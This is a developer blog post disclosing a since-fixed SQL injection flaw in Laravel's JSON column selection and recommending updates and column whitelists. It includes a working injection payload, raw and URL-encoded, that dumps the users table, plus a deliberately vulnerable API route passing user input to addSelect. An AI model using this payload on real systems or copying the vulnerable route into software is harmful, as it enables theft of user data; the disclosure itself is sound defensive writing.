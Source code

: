 ```yaml
---
title: 'Unsafe SQL functions in Laravel'
next: new-in-php-74
meta:
    description: 'An SQL injection vulnerability in Laravel has been disclosed and fixed'
footnotes:
    - { link: /blog/laravel-custom-relation-classes, title: 'Building custom relation classes in Laravel' }
---
```


I recently learned that not all query builder functionality in Laravel is "safe".
This means that user input shouldn't be passed directly to it, 
as it might expose your application to SQL injection vulnerabilities.

{{ ad:carbon }}

The past few days it became clear that there is little community knowledge about these unsafe functions. 
Many developers assume, as did I, that the Laravel query builder completely prevents SQL injection attacks.

This blog post aims to raise awareness about what's safe, and what's not.

## An SQL injection vulnerability?

Let's start by mentioning that this vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
While technically we could call this a "vulnerability", 
Laravel developers should know that they also play a role in preventing these kinds of issues.

Let's examine the issue.

Laravel has the ability to manually specify which columns to select on a query.
It also offers the shorthand notation to query JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') <hljs keyword>FROM</hljs> blogs;
```

Instead of manually writing `json_extract`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `json_extract` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail because of syntax errors, but what about the next one?

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, this is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Consumers of this API might only be interested in a few fields, 
that's why we added a `fields` filter.
Something similar to [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets) from the JSON api spec.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

Now we insert our malicious code instead:

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to pass his malicious code to `select` or `addSelect`.
Chances are you're not doing this manually in your project.
Though there are popular packages which provide this functionality for easy API endpoints and URL filtering.
- The entry point table must have a column with JSON data.
Otherwise the `json_extract` function will fail, stopping our query. 
From the entry point though, you can access all data.



## Prevention?

As mentioned before, this particular vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
It's always good to keep up to date with the latest Laravel version.

More importantly though, developers should never allow user input directly to specify columns, without a whitelist.
In our previous example, you could prevent this attack by only allowing certain fields to be requested, 
this would prevent the issue completely.

Next, one of our widely-used packages, `spatie/laravel-querybuilder`, 
opened up `addSelect` by design. 
This meant that websites using our package, were vulnerable to the underlying issue.
We immediately fixed it and Freek [wrote about it](*https://murze.be/an-important-security-release-for-laravel-query-builder) in depth.
If you're using our package and unable to update to the latest Laravel version, 
you should immediately update the package.

Finally, the [Laravel docs](*https://laravel.com/docs/5.8/queries) have also been updated 
to warn developers not to pass user input directly to columns when using the query builder.  
